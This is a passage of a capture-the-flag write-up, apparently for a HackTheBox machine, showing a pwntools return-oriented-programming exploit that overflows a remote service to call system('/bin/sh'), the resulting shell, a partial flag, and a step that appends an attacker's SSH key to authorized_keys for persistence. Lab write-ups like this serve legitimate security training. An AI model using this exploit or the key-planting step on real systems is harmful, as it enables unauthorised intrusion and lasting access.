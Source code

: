     
    #!/usr/bin/env python
    
    from pwn import *
    
    context(os="linux", arch="amd64")
    
    binsh = "/bin/sh\x00"
    junk = "A"*(120 - len(binsh))
    plt_system = p64(0x401040)
    test = p64(0x401152)
    pop_r13_r14_r15 = p64(0x401206)
    
    payload = junk + binsh + pop_r13_r14_r15 + plt_system + p64(0) + p64(0) + test
    
    p = remote("10.10.10.147", 1337)
    p.recvline()
    p.sendline(payload)
    p.interactive()
    

And it also gets a shell:

    
    
    root@kali# ./pwn_safe-m3.py 
    [+] Opening connection to 10.10.10.147 on port 1337: Done
    [*] Switching to interactive mode
    $ id
    uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth)
    

### Flag

With any of the three shells, I can grab `user.txt`:

    
    
    $ cat /home/user/user.txt
    7a29ee9b...
    

### Shell Upgrade

The box is quite bare. No `python`, `python3`, `nc`. But ssh is listening, so
I’ll drop my public key into the `authorized_keys` file and connect over ssh
to get a full shell:

    
    
    root@kali# cat ~/id_rsa_generated.pub | base64 -w0
    c3NoLXJzYSBBQUFBQjNOemFDMXljMkVBQUFBREFRQ...[snip]...
    
    
    
    $ echo c3NoLXJzYSBBQUFBQjNOemFDMXljMkVBQUFBREFRQ...[snip]... | base64 -d >> /home/user/.ssh/authorized_keys
    

Now I can ssh in:

    